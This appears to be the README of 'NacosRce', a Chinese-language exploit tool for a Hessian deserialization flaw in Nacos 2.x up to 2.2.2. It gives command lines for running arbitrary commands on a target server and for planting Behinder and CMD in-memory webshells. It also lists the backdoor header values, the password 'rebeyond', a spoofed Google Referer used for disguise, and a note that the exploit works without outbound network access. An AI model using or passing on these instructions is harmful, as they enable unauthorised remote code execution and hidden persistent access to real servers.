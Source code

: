 # NacosRce



```text
 _   __                         ______         
/ | / /___ __________  _____   / ____/  ______
/  |/ / __ `/ ___/ __ \/ ___/  / __/ | |/_/ __ \
/ /|  / /_/ / /__/ /_/ (__  )  / /____>  </ /_/ /
/_/ |_/\__,_/\___/\____/____/  /_____/_/|_/ .___/
/_/
```

Nacos Hessian 反序列化漏洞利用工具 v0.2
Author: 刨洞安全 && 凉风
** 食用方式 **
执行无回显命令	
java -jar NacosRce.jar ip:port "[command]"
同时注入冰蝎&&CMD内存马(推荐)
java -jar NacosRce.jar ip:port memshell


冰蝎内存马使用方法：
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
CMD内存马使用方法：
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令

v0.2版本实现了：
1、不出网漏洞利用
2、可多次发起漏洞利用
3、注入冰蝎/CMD内存马
tips:
1、请用jdk1.8
2、适用于 Nacos 2.x <= 2.2.2
3、非集群的也能打哦


参考
https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/
https://github.com/Y4er/ysoserial
